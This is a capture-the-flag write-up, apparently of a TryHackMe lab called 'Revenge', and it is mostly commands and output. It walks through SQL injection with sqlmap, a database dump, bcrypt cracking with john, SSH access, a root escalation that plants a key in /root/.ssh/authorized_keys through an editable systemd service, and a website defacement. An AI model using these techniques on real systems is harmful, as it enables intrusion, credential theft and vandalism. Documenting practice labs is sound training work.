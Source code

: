 ## Revenge
To whom it may concern,

I know it was you who hacked my blog.  I was really impressed with your skills.  You were a little sloppy
and left a bit of a footprint so I was able to track you down.  But, thank you for taking me up on my offer.
I've done some initial enumeration of the site because I know *some* things about hacking but not enough.
For that reason, I'll let you do your own enumeration and checking.

What I want you to do is simple.  Break into the server that's running the website and deface the front page.
I don't care how you do it, just do it.  But remember...DO NOT BRING DOWN THE SITE!  We don't want to cause irreparable damage.

When you finish the job, you'll get the rest of your payment.  We agreed upon $5,000.
Half up-front and half when you finish.

Good luck,

Billy

# Enumeration
```
# Nmap 7.91 scan initiated Mon Feb 15 21:46:34 2021 as: nmap -sC -sV -o nmap/initial -vvv -p 22,80 10.10.112.151
Nmap scan report for 10.10.112.151
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-02-15 21:46:35 PST for 13s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:53:b7:7a:eb:ab:22:70:1c:f7:3c:7a:c7:76:d9:89 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBiHOfDlVoYCp0+/LM7BhujeUicHQ+HwAidwcp1yMZE3j6K/7RW3XsNSEyUR8RpVaXAHl7ThNfD2pmzGPBV9uOjNlgNuzhASOgQuz9G4hQyLh5u1Sv9QR8R9udClyRoqUwGBfdNKjqAK2Kw7OghAHXlwUxniYRLUeAD60oLjm4uIv+1QlA2t5/LL6utV2ePWOEHe8WehXPGrstJtJ8Jf/uM48s0jhLhMEewzSqR2w0LWAGDFzOdfnOvcyQtJ9FeswJRG7fWXXsOms0Fp4lhTL4fknL+PSdWEPagTjRfUIRxskkFsaxI//3EulETC+gSa+KilVRfiKAGTdrdz7RL5sl
|   256 43:77:00:fb:da:42:02:58:52:12:7d:cd:4e:52:4f:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNNoSioP7IDDu4yIVfGnhLoMTyvBuzxILnRr7rKGX0YpNShJfHLjEQRIdUoYq+/7P0wBjLoXn9g7XpLLb7UMvm4=
|   256 2b:57:13:7c:c8:4f:1d:c2:68:67:28:3f:8e:39:30:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEpROzuQcffRwKXCOz+JQ5p7QKnAQVEDUwwUkkblavyh
80/tcp open  http    syn-ack ttl 61 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: E859DC70A208F0F0242640410296E06A
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 15 21:46:48 2021 -- 1 IP address (1 host up) scanned in 13.25 seconds
```

# Web server port 80
There is a login panel, but it does not actually make a POST request action so this is a dead end
Going to the products page the products are in a sequential ID order and with the presence of sqlmap as a tag in the room lets try and enumerate the database using this

# Enumerating sql server
sqlmap -u http://10.10.112.151/products/1 --dbs
```
[22:10:24] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:10:25] [INFO] fetching database names
[22:10:25] [INFO] retrieved: 'information_schema'
[22:10:26] [INFO] retrieved: 'duckyinc'
[22:10:26] [INFO] retrieved: 'mysql'
[22:10:26] [INFO] retrieved: 'performance_schema'
[22:10:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

# Dumping duckyinc
sqlmap -u http://10.10.112.151/products/1 -D duckyinc --dump
Hidden in the user/"customer" table we see a flag thm{br3ak1ng_4nd_3nt3r1ng}, this turns out to be flag 1

In the system_user table we find some hashes that might be more relevant to gaining access
```
Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$REDACTED  |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$REDACTED  |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$REDACTED |
+----+----------------------+--------------+--------------------------------------------------------------+
```
The server-admin hash has fewer rounds and an appealing username so lets go for the lower hanging fruit and try to crack this hash before the others.

# Cracking server-admin hash
```
john serverAdminHash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
inuyasha         (?)
1g 0:00:00:00 DONE (2021-02-15 22:18) 1.111g/s 280.0p/s 280.0c/s 280.0C/s precious..edward
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Since we know the login panel is a deadend lets go ahead and try to ssh.

# Initial foothold
ssh server-admin@10.10.112.151
our credentials do in fact work and we find flag2

# Privilege Escalation
```
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin:
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart
        duckyinc.service, /bin/systemctl daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```
gtfobins provides us a way to edit a service and allow us escalate our privileges
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```

so we can modify this as follows
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo 'our rsa key' > /root/.ssh/authorized_keys"
[Install]
WantedBy=multi-user.target
```

Since we can edit the duckyinc.service as such presumably we should then be able to reload the service and have the ability to ssh as root as an authorized identity
```
sudo systemctl daemon-reload
sudo systemctl restart duckyinc.service

ssh root@10.10.112.151
```

And we have successfully escalated to root

There doesn't appear to be a flag, but referencing the mission objectives given the flag hint reminds us that we are to deface the front page of the website so lets go ahead and do that

# Defacing Website
We navigate to /var/www/duckyinc/templates/index.html and can simply edit the frontpage here
After editing it we find the final flag has been created in the root directory
